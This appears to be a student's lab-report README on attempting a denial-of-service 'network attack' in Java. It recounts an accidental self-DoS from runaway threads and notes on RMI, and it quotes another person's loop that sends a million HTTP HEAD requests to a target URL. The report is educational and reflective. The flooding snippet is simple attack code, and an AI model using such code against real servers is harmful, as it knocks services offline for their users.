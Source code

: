 ###Network Attack
As in keylogger case, again I tried to do my best in order to get this project done in java. Here is something java definitelly cannot do, at least I could not find a good way to implemented it. Mainly it should not be possible because the JVM(Java Virtual Machine) would limit the amount of memory `java` process can consume. Because thats the main feature of java, to run inside its own environment. 

####Trials

#####Trial #1: Bug or Feature?
I have tried to create a simple server-client application and opened many many connections on same computer. Actually, by mistake on first laboratory work, while implementing multi-threading.

I started about 5 instances of java application, which creates a lot of threads. After some time, my pc started to lag and upon analyzing the resources I saw that I am doing something wrong. This could be some kind of DOS(Denial Of Service), I consumed my own resources, by creating multiple instances of java; all together it used about 4 Gb of ram memory, out of 8 Gb. 

The mistake was done mainly because:
   * I was not used to intelijIdea IDE (usually I use Android Studio)
   * I was sleepy and created a while loop in the wrong way

#####Trial #2: using RMI in JAVA
RMI stands for Remote Method Invocation, it directly transfers serialized Java classes and distributed garbage collection. 

I have read more about it, but still did not get how it works.

Some people succeeded to make it work, but still, they got a maximum of 60-70% memory load. I think my mistake from Trial #1 was way more successful. 

#####Trial #3: Simple Multiple Instances of Java
There is one guy who tried to DOS his own apache server by sending a milion packets to it.

		 for (int i = 1; i < 1000000; i++) {
            if ((checkshell.exists("http://"+TARGET+"")) == true)  {     
               System.out.println("Sent request " + i+" Times with " +i+" Connection");
              }
           else{
               if ((checkshell.exists("http://"+TARGET+"")) == false)  {    
                   System.out.println("Error after " +i+" Connection !!!");
                }  
             }
         }

And when calling `checkshell.exists()` the following code is executed:

			int TIMEOUT_VALUE = 0;
	   try {
	      HttpURLConnection.setFollowRedirects(false);
	      HttpURLConnection con =(HttpURLConnection) new URL(URLName).openConnection();
	      con.setInstanceFollowRedirects(false);
	      con.setConnectTimeout(TIMEOUT_VALUE);
	      con.setReadTimeout(TIMEOUT_VALUE);
	      con.setConnectTimeout(TIMEOUT_VALUE);
	      con.setRequestMethod("HEAD");   
	      con.addRequestProperty("User-Agent", userAgentPayload);
	      con.disconnect();
	      return (con.getResponseCode() == HttpURLConnection.HTTP_OK);
	    }

As you can see, the server could not take it anymore, and stopped responding:

![self dos](http://i.imgur.com/ACwFVne.jpg "self dos")

But I haven't tried it myself, as I would have to create the server on Virtual Machine first, and it is on Windows.


####Conclusion
Java is definitelly not for DOSing, I would preferably use Python, and give it a try. But at least I have seen how it works and how exactly a simple DOS application should work. 

In future, I will be more careful when working with multiple threads, and when requesting a lot of data from a server.


